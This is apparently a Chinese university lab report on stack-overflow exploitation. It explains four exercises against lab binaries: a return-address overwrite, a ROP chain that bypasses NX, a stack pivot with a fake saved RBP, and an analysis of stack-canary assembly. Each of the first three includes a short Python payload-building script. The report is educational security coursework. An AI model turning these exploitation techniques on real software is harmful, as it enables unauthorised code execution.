




# 栈溢出攻击实验

**姓名**：刘小渔
**学号**：2024201502

## 题目解决思路

  
### Problem 1: 基础栈溢出

- **分析**：
    
    1. **定位漏洞**：通过 `objdump` 查看 `func` 函数（`0x401232`），发现 `strcpy` 存在栈溢出漏洞。
        
    2. **计算偏移量**：汇编指令 `lea -0x8(%rbp),%rax` 显示缓冲区起始于 `rbp-0x8`。为了覆盖返回地址（位于 `rbp+0x8`），需要填充 `8 bytes (Buffer) + 8 bytes (Saved RBP) = 16 bytes`。
        
    3. **攻击目标**：目标函数 `func1` 地址为 `0x401216`。
        
- **解决方案**： 我使用 Python 的 `struct` 库构建二进制 Payload，精确覆盖返回地址。

```Python
    import struct
    # Payload = 16字节填充 + func1地址
    padding = b'A' * 16
    target_address = 0x401216
    payload = padding + struct.pack('<Q', target_address)
    
    with open("ans1.txt", "wb") as f:
        f.write(payload)
```
    
- **结果**： 
	
    

### Problem 2: 绕过 NX 保护 (ROP)

- **分析**：
    
    1. **保护机制**：NX (No-Execute) 开启，无法执行栈上代码，需采用 ROP 技术。
        
    2. **攻击逻辑**：目标函数 `func2` (`0x401216`) 会检查 `%edi` 寄存器的值是否为 `0x3f8`。
        
    3. **Gadget 选择**：在 `0x4012c7` 发现 `pop %rdi; ret` 指令序列，可用于将栈上数据弹入 `%rdi` 寄存器。
        
    4. **栈布局**：`[Padding 16B] -> [Gadget地址] -> [参数 0x3f8] -> [func2地址]`。
        
- **解决方案**： 构建 ROP 链，先利用 Gadget 传参，再跳转至目标函数。

```python
    import struct
    padding = b'A' * 16
    gadget_addr = 0x4012c7       # pop %rdi; ret
    arg_value = 0x3f8            # 参数 1016
    target_func = 0x401216       # func2
    
    # 构造 ROP Chain
    payload = padding
    payload += struct.pack('<Q', gadget_addr)
    payload += struct.pack('<Q', arg_value)
    payload += struct.pack('<Q', target_func)
    
    with open("ans2.txt", "wb") as f:
        f.write(payload)
```
    
- **结果**：
	
    

### Problem 3: 绕过 ASLR (Stack Pivoting)

- **分析**：
    
    1. **难点**：ASLR 导致栈地址随机，且目标 `func1` (`0x401216`) 检查参数 `114`，但缺乏合适的 Gadget 进行传参。
        
    2. **攻击逻辑**：直接跳转到 `func1` 内部检查之后的地址 `0x40122b`，跳过参数比对。
        
    3. **Stack Pivoting**：`func1` 内部利用 `%rbp` 寻址字符串。由于栈溢出破坏了 `%rbp`，直接跳转会导致访问非法内存崩溃。需将 Saved RBP 覆盖为 `.data` 段的一个固定可写地址（如 `0x403600`），伪造一个安全的栈帧。
        
    4. **偏移量**：`func` 中 `lea -0x20(%rbp)` 说明 Buffer 大小为 32 字节。
        
- **解决方案**： Payload 结构为 `[Padding 32B] -> [Fake RBP (.data段)] -> [Target Address (跳过检查点)]`。
    
```python
    import struct
    padding = b'A' * 32
    fake_rbp = 0x403600          # .data段的安全地址
    target_addr = 0x40122b       # func1 内部直接打印的地址
    
    payload = padding
    payload += struct.pack('<Q', fake_rbp)    # 劫持 RBP
    payload += struct.pack('<Q', target_addr) # 劫持 RIP
    
    with open("ans3.txt", "wb") as f:
        f.write(payload)
```
    
- **结果**：
	
    

### Problem 4: Canary 保护机制分析

- **分析**： 本题考察对 Stack Canary 保护机制的汇编级理解。通过分析 `func` 函数 (`0x135d`)，定位到两处关键指令：
    
    1. **设置 Canary (Set up)**： 在函数序言部分，程序从 `%fs:0x28` 取出随机值放入栈底（`rbp-0x8`）。
	```asm
        136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax  # 取出 Canary
        1375: 48 89 45 f8             mov    %rax,-0x8(%rbp)# 存入栈帧
    ```
        
    2. **检查 Canary (Check)**： 在函数返回前，取出栈底值与原值比较。若不一致（说明发生了溢出），则调用 `__stack_chk_fail` 终止程序。
    ```asm
        140a: 48 8b 45 f8             mov    -0x8(%rbp),%rax
        140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax  # 比较
        1417: 74 05                   je     141e           # 相等则通过
        1419: e8 b2 fc ff ff          call   __stack_chk_fail@plt
	```
        
- **解决方案**： 本题无需代码攻击，旨在分析上述汇编逻辑，证明程序通过在 Buffer 和 Return Address 之间插入随机值来检测缓冲区溢出。
    
- **结果**：
	
    

## 思考与总结

本次实验让我对底层系统有了更直观的认识：

首先，我转变了攻击思维。从 Problem 1 的“暴力覆盖”，到 Problem 2 的“借力打力”（ROP），再到 Problem 3 的“偷天换日”（栈迁移），我深刻体会到了攻击者如何在受限环境中寻找突破口。特别是 Problem 3，通过伪造 RBP 来骗过程序，让我对栈帧的作用有了全新的理解。

然后，我体会到了保护机制的有效性。Problem 4 的 Canary 机制非常简单却极其有效。仅仅是在栈上放一个随机数，就挡住了我之前所有的溢出手段。这让我意识到安全编程中编译器选项的重要性。

以及这次实验中，我坚持使用 Python 的 struct 库来生成 Payload，而不是手动拼接十六进制字符。这种工程化的方法不仅避免了大小端序的低级错误，也让我的攻击脚本更易于修改和复用。

## 参考资料

1. Randal E. Bryant, David R. O'Hallaron, _Computer Systems: A Programmer's Perspective (3rd Edition)_.
    
2. CTF Wiki - Stack Overflow: [https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/)
    
3. Intel® 64 and IA-32 Architectures Software Developer Manuals.